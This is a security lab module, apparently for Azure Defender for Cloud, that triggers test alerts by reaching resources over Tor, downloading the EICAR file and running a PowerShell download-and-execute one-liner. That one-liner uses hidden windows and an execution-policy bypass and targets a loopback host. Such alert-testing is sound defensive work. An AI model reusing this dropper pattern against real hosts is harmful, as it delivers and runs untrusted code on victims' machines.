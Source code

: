# Module 13 - Trigger som security incidents

<p align="left"><img src="../Images/asc-labs-intermediate.gif?raw=true"></p>

#### 🎓 Level: 200 (Intermediate)
#### ⌛ Estimated time to complete this lab: 20 minutes


## Anonymous access to Azure resources

To simulate anonymous access we use the TOR browser to anonyminize your IP when accessing the azure portal or the service directly.
> ! NB: We don't recomend using the TOR browser in a production environment. 

TOR Browser download: [Download TOR Browser](https://www.torproject.org/download/)

### Login to the Azure Portal

1. start the TOR browser and access https://portal.azure.com
2. Log in to your lab environment
3. navigate to your Azure Subscription
4. navigate to your lab resource group
5. browse some of the different resources. I.e Key Vault, Storage Accounts

### Access a storage account content with TOR Browser
Creating Access Policy an URL for Storage account content:
1. In the Azure portal browse for **Storage accounts**
2. Locate the account part of the lab: **asclabxxxxxxx**
3. Browse the account an navigate to **Containers** in the sidebar
4. Click on one of the existing Containers, ie **azure-webjobs-hosts**
5. Brows the folder to you find a file. Or upload a file by your self.
6. Click on the file choosen
7. Click on **Genereate SAS** on the top tabs
8. Use deault settings and click on **Generate SAS token and URL**
9. Copy and keep the **Blob SAS URL**

Access the content from TOR Browser
1. Start the TOR browser
2. Paste the **Blob SAS URL** in the addressbar
   


## Simulate alerts on a Windows VM

### Simulate suspicious powershell command
1. Login to the target computer, asclab-win
    - Login information can be reset using the "reset password" functionality on the VM in the Azure portal.
2. Create a folder 'c:\test-MDATP-test'
3. Open a command-line window
4. At the prompt, copy and run the following command. The command prompt window will close automatically.
   ```
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```
If the command is successful, you'll see a new alert on the workload protection dashboard and in the Microsoft Defender for Endpoint portal. This alert might take a few minutes to appear.
5. To review the alert in Defender for Cloud, go to **Security alerts > Suspicious Powershell commandline**



### Download Eicar
1. Login to the target computer, asclab-win
    - Login information can be reset using the "reset password" functionality on the VM in the Azure portal.
2. browse to: https://www.eicar.org/download-anti-malware-testfile/
3. Download one of the eicar files. ie eicar_com.zip



## Simulate alert for Azure Kubernetes Service






## More advanced scenarios
More advanced scenarios for simulating attack can be found here:
https://github.com/Azure/Microsoft-Defender-for-Cloud/tree/main/Simulations

